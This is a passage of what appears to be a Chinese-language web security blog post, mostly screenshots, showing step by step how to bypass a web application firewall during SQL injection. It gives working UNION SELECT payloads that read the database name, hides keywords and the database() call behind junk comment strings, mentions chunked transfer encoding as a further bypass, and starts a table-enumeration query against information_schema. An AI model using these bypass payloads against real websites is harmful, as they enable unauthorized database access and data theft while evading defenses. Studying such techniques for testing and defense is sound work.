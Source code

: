 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2fYV0JS1JgYgYfKyt8SKcaePmy0WF5PAad08fL0E1H9kk5roq0qYm9Q/640?wx_fmt=jpeg)

### 获取当前数据库

#### **方法一**

1’ union select 1,database() —+ 被拦截

分开测试  union select 会被拦截

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2iapOxrYQbucQ4O5ibpXZrkAcj4MfMKjw1iaiaZziaX9oQ5qFGBv3dSQpOibQ/640?wx_fmt=jpeg)

database() 也会被拦截

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2TYgEJDahI8Xt7uWiaibnbNApawGAe0k9LkjQHzxZ3KF54ibWZV8mUy13A/640?wx_fmt=jpeg)

先绕过 union select：

和之前 order by 的绕过方法一样

**1’ union/_%%!asd%%%%_/select 1,2 —+**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2TNcVzCmnbW4xmPrM6ySZdjYF52BPLxpZEfB9IrQ1BfOYZcldhVeJ3Q/640?wx_fmt=jpeg)

再绕过 database()：

经过测试，我们发现单独的 database 不会被拦截，加了括号就会了

我们将之前的垃圾数据 /_%%!asd%%%%_/ 放到括号了，即可成功绕过

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2ut4P8kUwm5rWMsFCwceVVvnDDlRaViaF6tB4M44USXkxoYS0JyC03JA/640?wx_fmt=jpeg)

拼接一下，最终的 payload 为：

**1’ union/_%%!asd%%%%_/select 1,database(/_%%!asd%%%%_/) —+**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2Ptt6Kwhv336RraB1y3XVeYUBJ2ALE0EwibIM7ia1iaT3uCVlUCnHMwzWA/640?wx_fmt=jpeg)

#### **方法二 分块传输**

分块传输依然可以

1’ union select 1,database() —+

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2Kjb1AfwRaUzPLicViaia0vIWlADp5qZknu0A966CNY8YRCsPqwwa5NARA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2ISTe25725rqqd4rBRxRrEKdgsicTAN2mDqiclqqFNsyAf82UKQl2Ldpg/640?wx_fmt=jpeg)

### 获取数据库中的表

#### 方法一

正常注入语句：

1’ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() —+
